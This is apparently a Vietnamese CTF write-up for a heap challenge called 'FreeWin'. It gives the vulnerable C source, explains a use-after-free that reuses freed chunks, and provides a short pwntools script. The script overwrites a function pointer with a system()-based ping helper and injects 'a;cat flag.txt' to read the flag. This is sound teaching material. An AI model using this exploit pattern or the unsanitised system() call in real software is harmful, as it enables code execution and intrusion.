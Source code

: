 # source code

<details> <summary> script </summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct
{
    char header[0x20]; // Not used yet, but will be used in order to specify the type of the entry
    int (*function)(const char *);
    char *buffer;
    int size;
} * entries[0x10] = {0};

void get_str(char *buffer, int length)
{
    printf(" >> ");
    fflush(stdout);
    fgets(buffer, length, stdin);

    // Set last character to 0 if it is a newline
    size_t len = strlen(buffer);
    if (buffer[len - 1] == '\n')
        buffer[len - 1] = 0;
}

int get_int(int min, int max)
{
    char input[0x10];
    get_str(input, 0x10);

    int int_input = atoi(input);

    if (int_input > max || int_input < min)
    {
        fprintf(stderr, "Incorrect input\n");
        exit(-1);
    }
}

int menu()
{
    puts("Welcome to FreeWin !");
    puts("");
    puts("  1.  Malloc");
    puts("  2.  Free");
    puts("  3.  Edit");
    puts("  4.  Execute");
    puts("");
    fflush(stdout);

    int choice = get_int(1, 4);

    return choice;
}

void malloc_chunk()
{
    puts("Index:");
    int index = get_int(0, 0x10);

    entries[index] = malloc(sizeof(**entries));

    puts("Size:");
    entries[index]->size = get_int(0x10, 0x100);

    puts("Buffer:");
    printf("%d\n", entries[index]->size);
    entries[index]->buffer = malloc(entries[index]->size);
    get_str(entries[index]->buffer, entries[index]->size);

    // TODO: Add options on function -> Let the user choose between different functions
    entries[index]->function = puts;
}

void free_chunk()
{
    puts("Index:");
    int index = get_int(0, 0x10);

    char *buffer = entries[index]->buffer;

    free(entries[index]);
    free(buffer);
}

void edit_chunk()
{
    puts("Index:");
    int index = get_int(0, 0x10);

    puts("Buffer:");
    get_str(entries[index]->buffer, entries[index]->size);
}

void execute_chunk()
{
    puts("Index:");
    int index = get_int(0, 0x10);

    entries[index]->function(entries[index]->buffer);
}

// Not used yet, but will be used in a later version as a choice between different functions
int execute_chunk_ping(char *buffer)
{
    char cmd[0x100] = {0};
    sprintf(cmd, "ping -c 1 %s", buffer);

    system(cmd);

    return 0;
}

int main()
{
    for (int choice = menu(); choice; choice = menu())
    {
        switch (choice)
        {
        case 1:
            malloc_chunk();
            break;

        case 2:
            free_chunk();
            break;

        case 3:
            edit_chunk();
            break;

        case 4:
            execute_chunk();
            break;

        default:
            fprintf(stderr, "An error happened\n");
            fflush(stderr);
            exit(-1);
        }
    }
}
```

</details>

# Ý tưởng

- Ở đây ta thấy có hàm có thể là mục tiêu mà chúng ta nhắm đến

```c
int execute_chunk_ping(char *buffer)
{
    char cmd[0x100] = {0};
    sprintf(cmd, "ping -c 1 %s", buffer);

    system(cmd);

    return 0;
}
```

- Chúng ta chú ý một xíu về hàm free(), khi free một chunk, không hẳn chunk đó bị xoá dữ liệu, chỉ đơn giản là set chunk đó đang không hoạt động
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/c8eb94b3-2bec-48e4-a50b-ffe2ea67cf47)

- Oke, chỗ này ta chú ý `entries[index]->function = puts;` nghĩ là nó gán địa chỉ của puts vào function.
- và, khi `entries[index]->function(entries[index]->buffer);` nó sẽ tương tự như là `puts(địa chỉ buffer)`
- ở `execute_chunk_ping` ta thấy ta có thể đưa địa chỉ của hàm này vào function.

- Ta thấy nó sẽ tạo 2 chunk trong option 1, một chunk 0x40 và một chunk do size ta quyết định
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/8bf5679a-85e1-438b-92d3-9ee94364fbf9)
- thì chunk 0x40 sẽ chứa địa chỉ puts
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/0d7027c3-adb4-46f4-9266-b28274fa80c6)

- vậy ta sẽ tạo 2 chunk bất kì và free nó, khi này ta tạo 1 thêm 2 chunk có size < 0x40, khi ấy chương trình sẽ lấy ra 2 chunk 0x40 và ta có thể ghi đè được địa chỉ puts

# Khai thác

- tạo 2 chunk 0x10 byte và free chúng, sau đó tạo 1 chunk < 0x40 (để lấy chunk chứa địa chỉ puts)
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/ced35482-ec55-4bf1-b3f6-33e915d5eb1d)
- sửa payload một xíu để ta ghi đè puts()
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/18bc9ed2-43cb-43b3-b00e-6d060f623fa0)
- Bây giờ khi ta chọn option 3 nó không còn là puts nữa mà giờ nó là `execute_chunk_ping` và tham số buffer sẽ là buffer của chunks đó

```python
malloc(b"0", b"24", b"aaaaaa")
malloc(b"1", b"24", b"aaaaaa")

free(b"1")
free(b"0")

payload = b"\0" * 32 + p64(exe.sym['execute_chunk_ping'])
malloc(b"0", b"56", payload)
edit(b"1", b"a;cat flag.txt\n")

execute(b"1")
```

chall hơi lỏ lúc được lúc không ạ =((
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/76bd9768-b185-49a0-a21f-d0a3ab3b7b87)
